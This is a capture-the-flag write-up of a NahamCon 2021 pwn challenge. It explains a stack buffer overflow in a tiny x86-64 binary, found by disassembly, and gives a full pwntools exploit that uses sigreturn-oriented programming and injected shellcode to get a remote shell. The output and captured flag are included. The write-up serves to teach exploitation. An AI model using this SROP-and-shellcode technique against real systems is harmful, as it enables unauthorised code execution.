 # NahamCon CTF 2021

## Some Really Ordinary Program [medium]

> Author: @M_alpha#3534
>
> I'm starting to get pretty good at this whole programming thing. Here's a basic program I wrote that will echo back what you say. 
>
> [some-really-ordinary-program](some-really-ordinary-program)

Tags: _pwn_ _x86-64_ _bof_ _srop_


## Summary

_Some Really Ordinary Program_ isn't an overstatement, this is the 3rd _and 4th_ time I've solve this same problem in 2021.  The _and 4th_ comes from this problem being nearly identical to a similar problem from another CTF that ran at the same time as this CTF.  I'm not complaining, just reporting.

Anyway, the short of it is, we have nearly nothing to work with but a `read` and `syscall` gadget; using the return value from `read` we can use that to set `rax` so that we can use _srop_.

These 3rd and 4th iterations of this problem in 2021 have up'd the game a bit requiring stack relocating to a known location for some easy shellcode injection.

## Analysis

### Checksec

```
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

No mitigations, choose your own adventure--_assuming you can find the bits you need._

### <strike>Decompile with Ghidra</strike> Disassemble with `objdump`

```assembly
  401000:	48 89 f2             	mov    rdx,rsi
  401003:	48 89 fe             	mov    rsi,rdi
  401006:	b8 00 00 00 00       	mov    eax,0x0
  40100b:	48 89 c7             	mov    rdi,rax
  40100e:	0f 05                	syscall
  401010:	c3                   	ret
  401011:	48 89 f2             	mov    rdx,rsi
  401014:	48 89 fe             	mov    rsi,rdi
  401017:	b8 01 00 00 00       	mov    eax,0x1
  40101c:	48 89 c7             	mov    rdi,rax
  40101f:	0f 05                	syscall
  401021:	c3                   	ret
  401022:	55                   	push   rbp
  401023:	48 89 e5             	mov    rbp,rsp
  401026:	48 81 ec f4 01 00 00 	sub    rsp,0x1f4
  40102d:	48 bf 00 20 40 00 00 	movabs rdi,0x402000
  401034:	00 00 00
  401037:	be 1f 00 00 00       	mov    esi,0x1f
  40103c:	e8 d0 ff ff ff       	call   0x401011
  401041:	48 8d 3c 24          	lea    rdi,[rsp]
  401045:	be 20 03 00 00       	mov    esi,0x320
  40104a:	e8 b1 ff ff ff       	call   0x401000
  40104f:	48 8d 3c 24          	lea    rdi,[rsp]
  401053:	48 89 c6             	mov    rsi,rax
  401056:	e8 b6 ff ff ff       	call   0x401011
  40105b:	c9                   	leave
  40105c:	c3                   	ret
  40105d:	e8 c0 ff ff ff       	call   0x401022
  401062:	eb f9                	jmp    0x40105d
```

Yep, that's all of it.

Loading this up in GDB and running with `starti` you can quickly see that `main` is at `0x401022`, and that functions `0x401000` and `0x41011` are simple fronts to `read` and `write`.

Starting from `main` (`0x401022`), `0x1f4` bytes of stack is allocated, then a string pointer (`0x402000`) and its length are _moved_ into `rdi` and `esi`, then `write` (`0x401011`) is called.  This emits to your terminal: `What you say is what you get.\n`.  Next `read` (`0x401000`) is called with parameters _stack_ and `0x320` for the location and length.  

Well there's your problem.  The stack was allocated for `0x1f4` and `read` is instructed to read up to `0x320` bytes creating a _bof_ vulnerability.

The next set of lines just emit to your terminal whatever you inputted, then we start all over again by calling `main`.  

> I guess I may have _jumped_ ahead of myself, the entry point is actually at the bottom at `0x40105d`, this calls `main`, than then jumps back to calling `main` in a loop.

That's all there is folks.  Not a lot here.  No GOT, very few gadgets, no libc, etc..., total _srop_ fodder.

```
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x some-really-ordinary-program
0x0000000000401000 0x0000000000402000 0x0000000000001000 r-x some-really-ordinary-program
0x0000000000402000 0x0000000000403000 0x0000000000002000 rwx some-really-ordinary-program
0x00007ffff7ffa000 0x00007ffff7ffd000 0x0000000000000000 r-- [vvar]
0x00007ffff7ffd000 0x00007ffff7fff000 0x0000000000000000 r-x [vdso]
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rwx [stack]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]
```

Before getting into the _srop_ details, let look at the memory map.  Other than the stack, there is a 4K page of memory that is also `RWX` at `0x402000`.  This is something we both have and _know_.

The attack is pretty simple, use `read` to _read_ in `0xf` bytes, so that `rax` is `0xf` (rt_sigreturn syscall).  Then call `syscall` followed by our sigreturn frame.

That frame will change `rsp` to the end of page `0x402000` (remember stacks grow _down_ in address space), and then set `rip` to `main`.  This will basically start us all over again, but this time we know the stack address because we _set_ it.

Since we can _read_ and we know _where_ we will be storing that input, we can just send some shellcode to do the rest.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./some-really-ordinary-program')
binary.symbols['main'] = 0x401022
binary.symbols['midread'] = 0x401006

if args.REMOTE:
    p = remote('challenge.nahamcon.com', 31225)
else:
    p = process(binary.path)
```

Standard pwntools header with some symbols added for `main` and `midread`.

> `midread` is the midpoint of the `read` frontend function described above.  Since all the registers are correct except for `rax` and `rdi`, it was only necessary to get the tail end of that function.

```python
syscall = next(binary.search(asm('syscall')))
stack = 0x402ff8

frame = SigreturnFrame()
frame.rsp = stack
frame.rip = binary.sym.main
```

Find a syscall gadget and setup the location of our new stack at the end of page `0x402000`, then define our rt_sigreturn frame with `rsp` pointing to our new stack and `rip` pointing to `main`


```python
# overflow buffer
# get control of RIP
# call the read function to get 0xf in rax for syscall
# sigret
payload  = b''
payload += (0x1f4 + 8) * b'A'
payload += p64(binary.sym.midread)
payload += p64(syscall)
payload += bytes(frame)

p.sendafter('.\n',payload)
```

The payload just needs to fill up the `0x1f4` buffer plus 8 bytes for the `push rbp`, then call `midread` followed by `syscall` and our frame.

```python
# with read called, get 0xf in rax
p.send(constants.SYS_rt_sigreturn * b'A')
```

With the payload now running we need to send `0xf` bytes so that `read` will return with `0xf` in `rax`.  After than the rt_sigreturn syscall will kick in and update all the registered with values from our frame, including the new stack (`rsp`) and where we should start executing again (`rip`).

```python
# new stack that we know address of and its NX
# just put in some shell code and call it
payload  = b''
payload += asm(shellcraft.sh())
payload += (0x1f4 + 8 - len(payload)) * b'A'
payload += p64(stack - 0x1f4 - 8)

p.sendafter('.\n',payload)

# take out the garbage
p.recvuntil(p64(stack - 0x1f4 - 8))
p.interactive()
```

Here we are again, at the beginning, all that has changed is we _know_ where the stack is.  This time we inject some shellcode, pad, and then replace the return address with the location of our shellcode.

The _take out the garbage_ just receives back our payload from the `write` that `main` calls after the `read` to prettify our output for this writeup.

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/nahamconctf2021/ordprog/some-really-ordinary-program'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[+] Opening connection to challenge.nahamcon.com on port 31450: Done
[*] Switching to interactive mode
$ id
uid=1000(challenge) gid=1000 groups=1000
$ cat flag.txt
flag{175c051dbd3db6857f3e6d2907952c87}
```

